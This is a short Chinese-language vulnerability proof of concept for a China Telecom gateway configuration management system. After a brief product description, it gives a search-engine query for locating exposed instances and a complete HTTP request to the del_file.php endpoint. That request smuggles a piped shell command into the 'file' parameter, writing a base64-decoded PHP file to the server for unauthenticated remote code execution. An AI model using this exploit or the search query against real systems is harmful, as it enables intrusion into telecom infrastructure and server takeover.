0x01 产品简介
中国电信集团有限公司(英文名称"China Telecom”、简称“"中国电信”)成立于2000年9月，是中国特大型国有通信企业、上海世博会全球合作伙伴。电信网关配置管理系统是一个用于管理和配置电信网络中网关设备的软件系统。它可以帮助网络管理员实现对网关设备的远程监控、配置、升级和故障排除等功能，从而确保网络的正常运行和高效性能。

0x02 漏洞概述


电信网关配置管理系统/manager/newtpl/del_file.php 接口存在命令执行漏洞，未经身份验证的远程攻击者可以利用此漏洞执行任意代码，从而获取服务器权限。

## 0x03 搜索语法

```bash
body="img/login_bg3.png" && body="系统登录"
```

0x04 漏洞复现
```yaml
GET /manager/newtpl/del_file.php?file=1.txt%7Cecho%20PD9waHAgcGhwaW5mbygpO3VubGluayhfX0ZJTEVfXyk7Pz4=%20%7C%20base64%20-d%20%3E%20rce.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

```

/manager/newtpl/rce.php